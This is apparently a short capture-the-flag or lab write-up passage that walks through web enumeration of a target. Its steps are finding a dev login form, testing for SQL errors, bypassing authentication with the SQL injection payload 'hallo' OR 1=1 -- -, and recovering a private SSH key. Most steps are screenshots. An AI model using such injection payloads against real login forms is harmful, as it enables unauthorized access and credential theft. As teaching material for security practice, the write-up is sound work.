 # 10 - HTTP

# index

![](vx_images/5589500238987.png)



# dev directory

![](vx_images/4395193796510.png)



# dev login form
![](vx_images/2003203585602.png)

# Internal Server Error with a single quote
![](vx_images/678330921353.png)


# Commented out sql statement returns Not Found:
![](vx_images/4218394869757.png)


# SQL injection

![](vx_images/1449126102877.png)

# Payload
```
name=admin&pass=hallo' OR 1=1 -- -
```


![](vx_images/5220375917221.png)


# Private SSH key

![](vx_images/5663086787407.png)


Good, we have a private key, however ssh port is not open, at least it's closed for IPv4.  Let's enumerate SNMP for IPv6